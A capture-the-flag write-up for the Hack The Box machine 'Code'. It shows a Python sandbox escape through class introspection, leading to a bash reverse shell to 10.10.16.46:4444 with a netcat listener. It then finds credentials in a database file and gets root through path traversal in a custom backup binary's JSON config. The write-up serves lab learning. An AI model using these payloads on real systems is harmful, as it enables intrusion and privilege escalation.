 ```yaml
---
title: Hack The Box - Code (2025) Writeup
date: 2025-08-01 18:00:00
categories:
  - HackTheBox
  - Writeups
tags:
  - Code
  - Python
  - RCE
  - Privilege Escalation
  - Path Traversal
---
```


# Code (Hack The Box) - 2025

> "When a box gives you a code editor, sometimes you just have to get creative."

---

## 1. Recon: Scanning for Opportunity

As always, I started with a thorough Nmap scan to map out the attack surface:

```bash
nmap -sV -A code.htb
```

Demo output:
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Ubuntu 5ubuntu1.2 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
```

- **22/tcp**: SSH
- **5000/tcp**: Python web server (Werkzeug) — likely a Flask app

---

## 2. Web App: The Python Code Editor

Browsing to port 5000, I found a web-based Python code editor. It allowed code execution, but with restrictions: many dangerous built-ins and modules were blacklisted.

> *Tip: When a CTF box gives you a code editor, think outside the box. Restrictions are often bypassable with Python's flexibility.*

### Bypassing Restrictions with Classes

Remembering tricks from previous CTFs, I used Python's class-based introspection to access forbidden functionality. By leveraging `__class__`, `__mro__`, and `__subclasses__()`, I could reach `os.popen` and spawn a reverse shell.

Example payload:

```python
import socket,subprocess,os
class A: pass
os = [x for x in ().__class__.__base__.__subclasses__() if x.__name__ == 'Popen'][0].__init__.__globals__['os']
os.popen('bash -c "bash -i >& /dev/tcp/10.10.16.46/4444 0>&1"')
```

- Started a netcat listener on my machine:

```bash
nc -lvnp 4444
```

- Submitted the payload and got a shell as the web app user.

---

## 3. Privilege Escalation: SUID and Database Hunting

With a foothold, I checked for SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```

- Found some standard SUID binaries, but nothing immediately useful.

Next, I searched for databases or sensitive files:

```bash
find / -type f -name '*.db' 2>/dev/null
```

- Discovered a database file containing user credentials.
- Used the credentials to log in as a higher-privileged user.

---

## 4. Root: The "backy" Binary and Path Traversal

As the new user, I searched again for SUID/root executables and found a custom binary called `backy`.

- Running `backy` required a JSON input file specifying folders to back up and a destination.
- A sample file was present:

```json
{
  "destination": "/tmp/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/home/user"
  ]
}
```

- The binary restricted backups to `home` and `var` directories, but I suspected path traversal might work.

### Exploiting Path Traversal

I modified the input file:

```json
{
  "destination": "/tmp/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/home/user/../../root"
  ]
}
```

- Ran `backy` with the crafted file:

```bash
./backy backup.json
```

- Success! The `/root` directory was archived to `/tmp/`. Inside, I found `root.txt` and claimed the flag.

---

## 5. Lessons Learned

- **Python code editors are rarely secure — introspection is your friend.**
- **Path traversal is a classic, but still effective, especially in custom binaries.**
- **Never trust user input, even in backup tools.**

> "Every CTF box is a new puzzle, but the old tricks never die."

---

*This writeup is for educational purposes only. Always hack responsibly.* 
